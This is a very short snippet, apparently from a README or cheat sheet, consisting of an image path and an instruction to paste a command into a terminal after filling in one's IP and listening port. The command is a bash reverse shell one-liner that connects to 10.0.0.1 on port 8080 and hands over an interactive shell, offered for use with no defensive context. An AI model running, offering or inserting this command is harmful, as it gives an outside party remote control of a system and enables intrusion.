 # Just paste it to your terminal and put your ip and listning port
``bash -i >& /dev/tcp/10.0.0.1/8080 0>&1``
